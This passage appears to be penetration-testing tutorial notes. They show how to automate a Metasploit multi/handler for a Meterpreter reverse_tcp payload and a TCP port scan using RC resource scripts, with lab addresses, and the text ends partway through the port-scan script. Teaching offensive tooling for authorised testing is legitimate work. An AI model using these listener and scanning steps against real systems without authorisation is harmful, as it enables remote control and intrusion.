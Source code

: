 Try to automate the process of setting up a handler for the payloads that we generated.

```
cd Windows_Payloads/
ls
```

What you would typically do manually is say:

```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.5
set LPORT 1234
run
exit
```

`run -j`: run in the background as a job.

What you can do in replacement of this is set up an RC script.

```
vim handler.rc
```

```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.10.5
set LPORT 1234
run
:wq
```

The important thing to note here is that you need to specify the commands sequentially, from the first command all the way to the last command, with the first command being at the topmost and the last command being at the end of the script.

In order to load it and actually see how this works:

```
msfconsole -r handler.rc
```

Make sure that we have the module name or have it set correctly.

```
msfconsole
search portscan
use auxiliary/scanner/portscan/tcp
show options
exit
```

We can automate this process:

```
vim portscan.rc
```
